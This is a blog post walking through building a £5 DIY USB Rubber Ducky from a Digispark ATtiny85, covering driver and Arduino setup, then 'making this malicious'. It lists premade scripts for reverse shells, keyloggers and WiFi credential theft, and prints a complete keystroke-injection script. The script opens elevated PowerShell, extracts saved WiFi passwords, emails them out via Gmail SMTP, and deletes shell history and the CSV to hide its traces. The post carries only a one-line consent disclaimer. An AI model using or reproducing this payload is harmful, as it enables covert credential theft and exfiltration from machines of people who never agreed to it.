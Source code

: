 ```yaml
---
layout: post
title: £5 Rubber Ducky
author: TDSSEC
date: 2023-02-07 11:33:00 +0800
categories: [Physical Tools, DIY Rubber Ducky]
tags: [USB]
math: true
mermaid: true
image:
  path: /2023-02-07-5-Quid-Rubber-Ducky/attiny85-usb.png
  #lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: ATtiny85 board
---
```


## USB Rubber Ducky
TL;DR A USB drive that disguises itself as a Keyboard, that injects keystrokes allowing an attacker to install backdoors, capture credentials or remotely obtain sensitive files.

The rubber ducky by [Hak5](https://shop.hak5.org/products/usb-rubber-ducky) is amazing, but getting your hands on one in the UK can be a struggle. Not only this, but the resale price of $99 as of today's post makes this a lot more expensive than simply building one for yourself for less than £5!

## £5 D.I.Y Prerequisites
- [Digispark Attiny 85](https://www.instructables.com/Digispark-Attiny-85-With-Arduino-IDE/) - a programmable board with 6kb memory (after 2kb goes to the bootloader)
- [Arduino IDE](https://www.arduino.cc/en/software)- Open-source IDE allowing you to write and upload code to the board.   
- [Digistump Drivers](https://github.com/digistump/DigistumpArduino/releases) - It's needed..!

## Important Info/Disclaimer.
Taken from [DigiStump.com](https://digistump.com/wiki/digispark/tutorials/connecting) directly:  

> *The Digispark, due to its small size and low cost is not as robust as a full blown Arduino.*  
*When testing a new circuit we recommend that you test it with an external power supply first. Connecting a shorted circuit to the Digispark and connecting it to your computer could damage your computer and/or its USB ports. We take no responsibility for damage to your machine as a result of the use of a Digispark.*  
*We strongly recommend connecting your Digispark through a USB hub which will often limit the damage caused by a short circuit to the usb hub. For the record, we've found many computers have usb fuses built in, and when we blew them on our 27“ Mac monitor, thankfully they reset and everything worked after a power down.*  
*The Digispark does not have short circuit or reverse polarity protection. Connecting power to the Digispark power pins backwards will almost certainly destroy it.*
{: .prompt-danger }

> The use of this device should only be performed with approval and prior written consent. ~ TDSSEC

I have been using a simple USB to USB cable:  
![USB to USB](/2023-02-07-5-Quid-Rubber-Ducky/usb-to-usb.jpeg){: width="500" height="102"}
## Drivers installation
Install the appropriate drivers for your Operating System in use. Without these installed, you might find that unless your Attiny85 came with a USB bootloader pre-installed, your OS wont detect this device!

## Arduino Setup
### Installation
1. Download and install Arduino.
Next, we need to download the boards for Digispark.  
3. Open **_File>Preferences_** and add the below URL to the **_Additional Board Manager URL_** section.
`http://digistump.com/package_digistump_index.json`
![preferences](/2023-02-07-5-Quid-Rubber-Ducky/preferences.png){: width="1024"}
4. Click OK...
5. Select **_Tools>Boards>Board Manager_**.
6. Search for **Digistump AVR Boards** and Install
![DigiStump AVR board](/2023-02-07-5-Quid-Rubber-Ducky/dvr-board-manager.png){: width="1024"}

### Choosing the Digistump AVR Board  
1. Open **_Tools>Boards>Digistump AVR Board_**.
2. Select **Digispark (Default - 16.5mhz).**
![DigiSpark 16.5mhz](/2023-02-07-5-Quid-Rubber-Ducky/digispark-board-choice.png){: width="1024"}

## Upload Test Script to the board  
With the drivers installed, as well as the Arduino setup, lets build and upload a built in keyboard test script.  
**Do not plug the Arduino in until step 5**.
1. Have the Digispark (Default - 16.5mhz) board selected within Arduino  
2. Open **_File>Example>DigisparkKeyboard>Keyboard_**.
![Keyboard Example](/2023-02-07-5-Quid-Rubber-Ducky/keyboard-example.png){: width="1024"}
3. Top-left select **_Verify_** button to check the code is OK.
4. Click the **_Upload_** button next to upload the code to the Arduino.
5. **Now you can plug the Arduino in**.

### Open a Text Editor  
1. Every 5 seconds, the ATtiny85 will write "Hello Digispark!" - Confirming this has worked!

## Time to make this malicious!  
### Scripts  
A list of premade scripts are available by [DigiSpark Scripts](https://github.com/CedArctic/DigiSpark-Scripts).  
These include the ability to:
- Extract WiFi credentials and automatically email them to you
- Reverse shells
- Keyloggers
- Fork Bombs
- Account Creations
- Execute Powershell scripts
- Funny scripts to change the users mouse settings or download and play videos off YouTube (RickRoll) ...

### Recover & Email WiFi passwords Example

    //This DigiSpark script writes the wireless network credentials to a csv file and emails it.
    //Credits to p0wc0w.

    //NOTE about the New Version of this script: The older script stopped working on newer builds of Windows 10
    //since Windows 10 now require an elevated cmd or powershell to execute these commands. This version should
    //be faster (better, stronger...) and should work on all builds of Windows 10. For previous versions
    //of Windows or simply older builds of Windows 10, the other version works like a charm.

    #include "DigiKeyboard.h"
    void setup() {
    }

    void loop() {
      DigiKeyboard.sendKeyStroke(0);
      DigiKeyboard.delay(500);
      DigiKeyboard.sendKeyStroke(KEY_X, MOD_GUI_LEFT);
      DigiKeyboard.delay(500);
      DigiKeyboard.sendKeyStroke(KEY_A);
      DigiKeyboard.delay(1000);
      DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);
      DigiKeyboard.delay(500);
      DigiKeyboard.print(F("(netsh wlan show profiles) | Select-String '\\:(.+)$' | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name=$name key=clear)}  | Select-String 'Key Content\\W+\\:(.+)$' | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }} | Export-Csv -Path temp.csv;exit"));
      DigiKeyboard.sendKeyStroke(KEY_ENTER);
      DigiKeyboard.delay(3000);
      DigiKeyboard.sendKeyStroke(KEY_X, MOD_GUI_LEFT);
      DigiKeyboard.delay(500);
      DigiKeyboard.sendKeyStroke(KEY_A);
      DigiKeyboard.delay(1000);
      DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);
      DigiKeyboard.delay(500);
      DigiKeyboard.print(F("$SMTPInfo = New-Object Net.Mail.SmtpClient('smtp.gmail.com', 587); $SMTPInfo.EnableSsl = $true; $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('GMAIL_USERNAME', 'GMAIL_PASSWORD'); $ReportEmail = New-Object System.Net.Mail.MailMessage; $ReportEmail.From = 'SENDER_MAIL'; $ReportEmail.To.Add('RECEIVER_MAIL'); $ReportEmail.Subject = 'DigiSpark Report'; $ReportEmail.Body = 'Attached is your report. - Regards Your Digispark'; $ReportEmail.Attachments.Add('temp.csv'); $SMTPInfo.Send($ReportEmail);exit"));
      DigiKeyboard.sendKeyStroke(KEY_ENTER);
      DigiKeyboard.delay(500);
      DigiKeyboard.sendKeyStroke(KEY_X, MOD_GUI_LEFT);
      DigiKeyboard.delay(500);
      DigiKeyboard.sendKeyStroke(KEY_A);
      DigiKeyboard.delay(1000);
      DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);
      DigiKeyboard.delay(500);
      DigiKeyboard.print(F("del (Get-PSReadlineOption).HistorySavePath;exit"));
      DigiKeyboard.sendKeyStroke(KEY_ENTER);
      DigiKeyboard.delay(500);
      DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
      DigiKeyboard.delay(500);
      DigiKeyboard.print("cmd");
      DigiKeyboard.sendKeyStroke(KEY_ENTER);
      DigiKeyboard.delay(500);
      DigiKeyboard.print(F("del temp.csv"));
      DigiKeyboard.sendKeyStroke(KEY_ENTER);
      DigiKeyboard.delay(100);
      DigiKeyboard.print(F("exit"));
      DigiKeyboard.sendKeyStroke(KEY_ENTER);
      for(;;){ /*empty*/ }
      }
